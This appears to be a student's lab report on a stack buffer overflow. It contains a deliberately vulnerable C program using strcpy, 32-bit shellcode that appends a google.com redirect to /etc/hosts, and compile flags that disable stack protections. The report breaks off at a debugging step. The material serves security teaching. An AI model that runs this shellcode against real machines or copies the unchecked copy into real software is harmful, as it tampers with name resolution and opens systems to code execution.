

# Lab #1,22110017, Tran Minh Duy, INSE330380E_02FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:

### 1. Build image Run Docker
```
docker build -t img4lab .
```
```
 docker run -it --privileged -v C:/Users/Lenovo/Seclabs:/home/seed/seclabs img4lab
```

### 2. Create and Compile c program and asm program
-Create c program and asm program.


-Compile them:
```
nasm -f elf32 -o lab1.o lab1.asm
```
```
ld -m elf_i386 -o lab1 lab1.o
```
```
gcc -o vullab1 vullab1.c -fno-stack-protector -z execstack -m32
```

### 3. Stack Frame:


If we want to exploit 
- Overflow the Buffer.

The buffer is 16 bytes to send more than 16 bytes to overflow it.<br>
- Overwrite EBP (4 bytes).

The next 4 bytes would overwrite the saved EBP.<br>
- Overwrite Return Address (4 bytes).

To overwrite the return address to point to  the address of system() for a return-to-libc attack.<br>
- 4 bytes for argument for system()
### 4. Use gdb
